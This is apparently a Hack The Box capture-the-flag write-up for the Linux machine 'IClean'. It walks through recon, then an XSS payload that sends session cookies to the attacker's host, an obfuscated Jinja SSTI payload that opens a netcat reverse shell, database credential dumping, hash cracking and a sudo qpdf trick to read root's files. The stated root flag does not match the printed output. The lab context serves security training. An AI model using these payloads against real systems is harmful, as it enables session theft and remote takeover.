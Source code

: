 ```yaml
---
layout: post
title: "HTB Linux Medium: IClean"
description: "IClean is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Medium]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.129.206.253  
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-04-09 11:29 EDT
Nmap scan report for 10.129.206.253
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.10 seconds

```

Modify hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.206.253 capiclean.htb                   
```


## Enumerate HTTP (Port 80)
Landing page.
![Pasted image 20240714211745.png](/images/Pasted image 20240714211745.png){: .normal }

Doing directory busting using Gobuster, we find a couple of pages:
```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 5267]
/choose               (Status: 200) [Size: 6084]
/dashboard            (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 2106]
/logout               (Status: 302) [Size: 189] [--> /]
/quote                (Status: 200) [Size: 2237]
/server-status        (Status: 403) [Size: 278]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

On the quotes page we can enter an email:
![Pasted image 20240714211738.png](/images/Pasted image 20240714211738.png){: .normal }

We can use XSS to obtain a privileged cookie:
```bash
<img src=x onerror=this.src="<http://10.10.14.44/?cookie=>"+document.cookie>
```

Request used: (URL encoded)
![Pasted image 20240714211733.png](/images/Pasted image 20240714211733.png){: .normal }

Result:
```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80                                                                
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
10.129.206.253 - - [09/Apr/2024 11:43:46] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhMNCQ.8b1i8Jdf7mrnOgOURge6IeEbZwg HTTP/1.1" 200 -
```

We can now modify our cookie to the value we received.
![Pasted image 20240714211726.png](/images/Pasted image 20240714211726.png){: .normal }


In order to create a QR code we first have to create an invoice (we can find the invoice ID in the Burp response).
![Pasted image 20240714211720.png](/images/Pasted image 20240714211720.png){: .normal }


In the Generate QR page there is an SSTI vulnerability.
![Pasted image 20240714211711.png](/images/Pasted image 20240714211711.png){: .normal width="450"}


Result:
```bash
<img src="data:image/png;base64,9" alt="QR Code">
```


### Gain Shell
Payload: (URL encode)
{% raw %}
```bash
{{request|attr('application')|attr('\\x5f\\x5fglobals\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fbuiltins\\x5f\\x5f')|attr('\\x5f\\x5fgetitem\\x5f\\x5f')('\\x5f\\x5fimport\\x5f\\x5f')('os')|attr('popen')('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.44 4444 >/tmp/f')|attr('read')()}}
```
{% endraw %}

Shell as www-data:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
connect to [10.10.14.44] from (UNKNOWN) [10.129.206.253] 38342
bash: cannot set terminal process group (1200): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## Lateral movement
In the app.py file located in the `/opt/app` folder we find database credentials:
```bash
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

Access the database using the found credentials:
```bash
mysql -u iclean -p
Enter password:
```

We find a hashed password in the users table.
```bash
mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Crack the hash using crackstation.net: `simple and clean`.
![Pasted image 20240714211655.png](/images/Pasted image 20240714211655.png){: .normal }


SSH as conseula:
```bash
┌──(kali㉿kali)-[~]
└─$ ssh consuela@capiclean.htb
consuela@capiclean.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

  System information as of Thu Apr 25 12:39:45 PM UTC 2024

Expanded Security Maintenance for Applications is not enabled.

3 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Apr 25 12:39:45 2024 from 10.10.14.144
consuela@iclean:~$ id
uid=1000(consuela) gid=1000(consuela) groups=1000(consuela)

```

User flag: `b19e7ca76bc9ad0b28a37c1a69722e8b`
```bash
consuela@iclean:~$ cat user.txt 
b19e7ca76bc9ad0b28a37c1a69722e8b
```


## Privilege Escalation
Sudo -l output
```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

We can use qpdf to convert the root.txt file into a PDF by abusing attachments.
```bash
sudo qpdf --empty --add-attachment /root/root.txt --mimetype=text/plain -- extract.pdf
```

Now use binwalk to extract the content.
```bash
┌──(kali㉿kali)-[/tmp]
└─$ binwalk -Me extract.pdf
```

A new directory should be made in which you will find the extracted PDF document.
```bash
┌──(kali㉿kali)-[/tmp]
└─$ cd _extract.pdf.extracted
```

Root flag: `1b8e35478d961273692e95d792b99f74`
```bash
┌──(kali㉿kali)-[/tmp/_extract.pdf.extracted]
└─$ cat 224                  
f48a635cde968eac9f323f88067c058c
```


## PWNED!!!
![Pasted image 20240714211645.png](/images/Pasted image 20240714211645.png){: .normal }